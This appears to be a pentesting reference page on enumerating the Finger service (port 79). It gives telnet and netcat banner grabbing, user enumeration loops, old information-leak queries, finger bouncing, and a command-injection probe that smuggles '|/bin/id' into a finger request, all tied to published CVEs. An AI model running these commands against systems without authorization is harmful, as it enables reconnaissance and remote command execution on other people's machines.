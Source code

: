```yaml
---
title: "Finger - 79"
description: "Name/Finger Enumeration for Pentesting"
weight: 79
---
```

# Finger

{{<hint info>}}
Finger user information protocol.

**Default Port**: 79
{{</hint>}}

The Finger User Information Protocol ([RFC 1288](https://tools.ietf.org/html/rfc1288)),
is a simple protocol that provides
an interface to a remote user information program (RUIP).
[^rfc-1288]

## Banner Grabbing

#### Telnet

```sh
telnet {{< param "war.rhost" >}} 79
```

#### Netcat
```sh
echo "root" | nc -n {{< param "war.rhost" >}} 79
```

## Enumeration

### Tools

- [PentestMonkey - finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

### Fast Enum

```sh
for q in 'root' 'admin' 'user' '0' "'a b c d e f g h'" '|/bin/id';do echo "FINGER: $q"; finger "$q@{{< param "war.rhost" >}}"; echo -e "\n";done
```

#### Finger [^finger]

List logged users.

```sh
finger @{{< param "war.rhost" >}}
```
Finger a specific user.
```sh
finger -l root@{{< param "war.rhost" >}}
```
Enumerate users containing `user`.
```sh
finger -l user@{{< param "war.rhost" >}}
```

{{<hint info>}}
Try other words as: `admin`, `account` or `project`.
{{</hint>}}

{{<details "Parameters">}}
- `-l`: Multi-line format. Displays all the information.
{{</details>}}

### Finger Zero [^cve-1999-0197]

`fingerd` may respond to `finger 0@<host>`
with information on some user accounts.

```sh
finger 0@{{< param "war.rhost" >}}
```

### Finger 'a b c d e f g h' [^cve-2001-1503]

`fingerd` may respond to `'a b c d e f g h'@<host>`
with information on all accounts.

```sh
finger 'a b c d e f g h'@{{< param "war.rhost" >}}
```

## Finger Bouncing [^finger-bouncing]

`finger` can be used to relay a request
to a different host
as if it were sent from that machine.

```sh
finger @{{< param "war.rhost" >}}@10.10.10.4
```

```sh
finger root@{{< param "war.rhost" >}}@10.10.10.4
```

## Command Execution [^cve-1999-0152]

`fingerd` allows remote command execution
through shell metacharacters.

```sh
finger "|/bin/id@{{< param "war.rhost" >}}"
```

## Finger Exploits Search

Refer to [Exploits Search]({{< ref "exploits-search">}})

[^rfc-1288]: “RFC 1288 - The Finger User Information Protocol.” IETF Tools, https://tools.ietf.org/html/rfc1288.
[^finger]: “Finger(1): User Info Lookup Program.” Linux Documentation, https://linux.die.net/man/1/finger.
[^cve-1999-0197]: “CVE - CVE-1999-0197.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=1999-0197.
[^cve-2001-1503]: “CVE - CVE-2001-1503.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1503.
[^finger-bouncing]: “‘Solaris 2.7 Allows Finger Bouncing’ .” SecuriTeam, 15 Jan. 1999, https://securiteam.com/exploits/2BUQ2RFQ0I/.
[^cve-1999-0152]: “CVE - CVE-1999-0152.” CVE -  Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0152.
